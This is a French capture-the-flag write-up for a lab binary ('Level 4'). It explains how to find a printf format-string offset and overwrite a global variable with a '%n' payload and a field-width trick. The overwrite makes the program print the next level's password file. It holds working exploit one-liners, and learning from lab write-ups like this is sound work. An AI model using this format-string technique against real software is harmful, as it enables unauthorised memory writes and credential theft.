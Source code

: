 ## Level 4

Comme au niveau précédent, nous décompilons le binaire.

Appart le main, on retrouve deux fonctions p() et n().

n() fonctionne comme a l'exercice d'avant, il faut donc a nouveau exploiter les
formats strings.

p() fait juste un appel a printf();

Par contre, la valeur a réécrite dans '_m' vaut `0x1025544` soit `16 930 116` en
décimal. Cette variable se situe a l'adresse `0x08049810`.

On commence par trouver l'offset de notre argument dans la stack:

`$ ./level4`
> BBBB %x %x %x %x %x %x %x %x %x %x %x %x

On observe que la valeur `0x42424242 (BBBB)` est décalé de 12, due a l'appel de
fonction p() entre le fgets() et le printf(). On sait donc qu'il faudra utiliser
`'%12$n'`.

Avec toutes ces informations, on construit donc la commande:
`$ python -c 'print "\x10\x98\x04\x08" + "B"*16930112 + "%12$n"' | ./level4`

Sauf que écrire plus de 16 millions de 'B' ne fonctionne évidement pas. (Cela
serait trop facile)

On va donc allez un pas plus loin dans l'exploitation des format string, en
utilisant la taille de champ de printf(). Ce qui nous donne :

`$ python -c 'print "\x10\x98\x04\x08" + "%16930112d" + "%12$n"' | ./level4`

Ce qui nous permet de ne pas afficher ces 16 millions de charactères, mais qui
seront quand meme insérér par printf() lors de la résolution du format.

Pas besoin cette fois ci d'ecrire le retour de la fonction dans un fichier, car
la commande executé par system() n'est pas un shell mais, `cat
/home/user/level5/.pass`.

Le flag est donc directement affiché sur notre terminal.
